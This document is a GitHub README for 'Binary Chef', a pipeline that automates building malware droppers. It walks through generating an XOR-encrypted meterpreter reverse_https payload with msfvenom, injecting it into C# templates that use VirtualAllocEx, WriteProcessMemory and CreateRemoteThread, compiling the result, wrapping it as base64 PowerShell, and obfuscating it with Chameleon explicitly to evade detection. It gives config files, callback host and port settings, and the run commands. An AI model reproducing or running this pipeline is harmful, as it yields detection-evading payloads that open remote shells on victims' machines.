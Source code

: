 
# Binary Chef

As of 2/1/2023, you can build executables, convert it to powershell, and obfuscate the *.ps1 automatically.

This tool will help you with compiling executable binaries automatically. Using the Jinja Template, C# file, it accomplish automated insertion of shellcode block. Also it supports automated obfuscation in Chameleon

the execution steps are as in the following.

1. Uses msfencoder (msfvenom) to automatically create and encrypt the payload.
2. Based on Jinja template file of C#, it places the payload in the desired location in the C# source code.
3. Automatically compile C# files on Windows.
4. Encode the executables in base64 format, Import it to powershell module. 
5. Obfuscate Powershell script with chameleon, to evade detection.


*You'll need to have a simple infrastructure as in the image below.*


![graph](./image.png)

# Requirement


### Windows(Remote)

Run `Setup/ConfigureWinrmHTTPS.ps1` on your `windows` machine first to configure WinRM Service to enable HTTPS.
Ansible will need to connect via HTTPS.

> Please note that you need to have Visual Studio and .NET package installed on the windows machine.
> I have only have tested Visual Studio are "Visual Studio 2022 Community Version".


### Linux(Remote)

Just use Kali Linux.


### LocalMachine(Linux/MacOS)

You must configure the following 3.

- Connection Option
- Compiling Option
- Source Code Option

### Connection option

Configure the allocated IP for each Kali and Windows VM such as in the following format.

```yaml
[kali]
169.254.217.2

[kali:vars]
ansible_host=169.254.217.2
ansible_port=22
ansible_ssh_user=XXXXX
ansible_python_interpreter=python3
# Optional for SSH
# ansible_ssh_private_key_file=~/.ssh/kali.private

[windows]
169.254.217.3

[windows:vars]
ansible_host=169.254.217.3
ansible_user=XXXXX
ansible_password=XXXXX
ansible_connection=winrm
ansible_port=5986
ansible_winrm_server_cert_validation=ignore
ansible_winrm_scheme=https
#ansible_python_interpreter=c:\Python\python
ansible_python_interpreter=python3 
# Option for SSH
ansible_ssh_private_key_file=~/.ssh/win11.private
```

### Compiling option

you need `pip3 install pywinrm` to access windows with Ansible remotely.

Once you are able to connect to VMs, you need to specify the variables in `groups_vars/all.yaml`.

variable you need to change are `msfencoder` arguments and `compiler`.

```yaml
# Linux
## MsfEncode arguments
## msfencoder 169.254.217.2 443 cs xor 0xfa windows/meterpreter/reverse_https
server: 169.254.217.2
ports: 443
format: 'cs'
encrypt_method: 'xor'
encrypt_key: '0xfa'
payload: 'windows/meterpreter/reverse_https'

# Local Machine
## j2 Templates
src: ../../../codemaker/src/*.j2
## To store executables
out: ../../../codemaker/out


# Windows 
## Temp Folder
tempdir: C:/Temp/
## CSC.exe compiler
compiler: C:\Program Files\Microsoft Visual Studio\2022\Community\MSBuild\Current\Bin\Roslyn\csc.exe
```

### Source Code Option

the souce code C# will be put under `codemaker/src/`. please make sure you have the extension appended `.j2` (Jinja template), otherwise Ansible won't be able to render and modify files.

Once you have the template files, insert `{{ payloadContent }}` to specify the insertion point of shellcode that will be inserted by `msfencoder`.

```csharp
using System;

        public static void Main(string[] args)
        {
            {{ payloadContent }}
        
            // write the code you want...
            VirtualAllocEx();
            WriteProcessMemory();
            CreateRemoteThread();
        }
```

### Running ansible

This will ask you password for Kali VM, to execute as SUDO.

```bash
ansible-playbook build-binary.yaml --ask-become-pass
ansible-playbook encode-command.yaml
```
